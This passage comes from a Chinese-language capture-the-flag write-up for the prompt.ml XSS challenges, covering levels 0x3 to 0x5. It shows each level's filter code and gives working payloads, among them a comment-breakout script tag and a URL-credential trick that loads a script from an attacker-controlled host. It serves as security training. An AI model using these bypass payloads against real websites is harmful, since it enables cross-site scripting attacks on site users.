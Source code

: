 payload:

```js
--!><script>prompt(1)</script>
```

------

### 0x4

```js
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

这关利用正则对字符串进行了过滤，开头必须为`http://prompt.ml/`。

原本以为是可以在中间构造语句闭合进行绕过的，但是发现会转为实体字符，这条线走不通。

看了看师傅们的wp，浏览器是支持这种url写法的

```
https://username:password@attacker.com，但是https://username:password/@attacker.com不行，这里由于用了decodeURIComponent，所以可以用%2f解码绕过。
```

这里要用到自己的服务器，直接传个`prompt(1)`的js文件上去，然后访问。

tips：这种url写法chrome并不支持，火狐还可以用。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210817131241835.png)

还有一种方法是直接开phpstudy的服务器，这样就可以不用自己的服务器打。

payload:

```
http://prompt.ml%2f@localhost/xss.js
```

------

### 0x5

```js
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}
```
